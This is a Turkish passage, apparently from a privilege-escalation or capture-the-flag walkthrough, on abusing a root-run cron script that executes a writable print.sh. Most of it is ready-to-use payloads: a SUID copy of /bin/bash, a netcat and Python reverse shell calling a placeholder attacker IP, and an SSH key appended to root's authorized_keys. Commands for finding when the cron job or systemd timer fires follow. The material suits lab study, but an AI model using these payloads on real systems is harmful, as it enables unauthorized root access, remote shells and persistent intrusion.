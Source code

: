 Eğer `planner.sh` zafiyetli bir şekilde `print.sh`'i `root` olarak çalıştırıyorsa, `print.sh`'e şunları yazabiliriz:

**Payload 1: /bin/bash Kopyasına SUID Biti Verme (Önerilen)**
```bash
#!/bin/bash
# /home/cihan/print.sh

# /bin/bash'in bir kopyasını oluşturup ona SUID biti verelim
cp /bin/bash /tmp/rootbash
chown root:root /tmp/rootbash # Sahibi root olmalı
chmod u+s /tmp/rootbash       # SUID biti ekle
```
*Neden kopya?* Bazı sistemler `/bin/bash`'e doğrudan SUID biti verilmesini engelleyebilir veya beklenmedik davranışlara yol açabilir. Ayrıca, orijinal dosyayı değiştirmemek daha "sessiz" bir yöntemdir.

**Payload 2: Tersine Bağlantı (Reverse Shell)**
```bash
#!/bin/bash
# /home/cihan/print.sh

attacker_ip="YOUR_ATTACKER_IP"
attacker_port="YOUR_ATTACKER_PORT"

# Basit bir netcat reverse shell
rm /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc $attacker_ip $attacker_port > /tmp/f

# Daha stabil olabilecek Python reverse shell
# python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_ATTACKER_IP",YOUR_ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
*Not:* Tersine bağlantı için saldırgan makinede `nc -lvnp YOUR_ATTACKER_PORT` ile dinleyici başlatılmalıdır.

**Payload 3: SSH Anahtarı Ekleme**
```bash
#!/bin/bash
# /home/cihan/print.sh

SSH_PUBLIC_KEY="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ..." # Kendi public key'iniz

mkdir -p /root/.ssh
echo "$SSH_PUBLIC_KEY" >> /root/.ssh/authorized_keys
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
# chown -R root:root /root/.ssh # Gerekirse sahipliği de düzelt
```

### `planner.sh`'in Çalışma Sıklığını Tespit Etme

Payload'ı yerleştirdikten sonra ne zaman tetikleneceğini bilmek önemlidir.
1.  **Cron Dosyalarını İnceleme:** (Yukarıda detayları verildi)
    *   `cat /etc/crontab`
    *   `sudo crontab -u root -l` (veya `planner.sh`'i çalıştıran başka bir kullanıcı)
    *   `ls -l /etc/cron.d/ ; cat /etc/cron.d/*planner*`
2.  **Systemd Timer'ları Kontrol Etme:** (Yukarıda detayları verildi)
    *   `systemctl list-timers --all | grep planner`
    *   `systemctl cat planner.timer` (eğer varsa)
3.  **Log Analizi:**
    *   `grep planner.sh /var/log/syslog` (veya `/var/log/cron.log`, `/var/log/auth.log`)
    *   `journalctl -u planner.service` (eğer systemd servisi ise)
    *   `journalctl | grep planner.sh`